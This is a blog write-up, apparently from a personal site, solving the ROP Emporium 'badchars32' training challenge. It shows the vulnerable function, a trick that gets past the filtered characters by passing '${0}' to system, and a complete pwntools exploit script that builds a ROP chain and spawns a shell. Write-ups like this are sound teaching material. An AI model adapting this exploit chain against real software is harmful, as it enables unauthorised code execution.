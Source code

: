 ```yaml
---
layout: post
title: ROP Emporium - badchars32
---
```


### Instruction
An arbitrary write challenge with a twist; certain input characters get mangled before finding their way onto the stack. Find a way to deal with this and craft your exploit.

### Prev step to overflow stack
<https://bhrdn.github.io/ROP-Emporium-ret2win32/>

### Prev step to find data-section addr and gadgets
<https://bhrdn.github.io/ROP-Emporium-write432/>

### Check vuln function
```c
void pwnme(void)
{
  char *__s;
  size_t __n;
  undefined auStack44[40];
  
  __s = (char *)malloc(0x200);
  if (__s != (char *)0x0) {
    memset(__s, 0, 0x200);
    memset(auStack44, 0, 0x20);
    puts("badchars are: b i c / <space> f n s");
    printf("> ");
    __s = fgets(__s, 0x200, stdin);
    __n = nstrlen(__s, 0x200);
    checkBadchars(__s, __n);
    memcpy(auStack44, __s, __n);
    free(__s);
    return;
  }

  exit(1);
}
```

### XOR function to bypass badchars
```c
void usefulGadgets(void)
{
  byte in_CL;
  byte *unaff_EBX;
  
  *unaff_EBX = *unaff_EBX ^ in_CL;
  return;
}
```

### Why not bypass badchars with bash special params 💃💃
- Badchars: [ 'b', 'i', 'c', '/', ' ', 'f', 'n', 's' ]

```c
#include <stdio.h>

int main()
{
    system("$0");
    return 0;
}
```
- Reference: <https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html>

### Payload
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('badchars32')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = '\x90' * cyclic_find('laaa')
command = '${0}'

DATA_START = 0x804a038

## gadgets to write datas
POP_ESI_POP_EDI = 0x08048899
MOV_EDI_ESI = 0x08048893

rop = ROP(exe)
rop.raw(POP_ESI_POP_EDI)
rop.raw(command)
rop.raw(DATA_START)
rop.raw(MOV_EDI_ESI)

rop.system(DATA_START)

io.sendline(payload + rop.__str__())
io.interactive()
```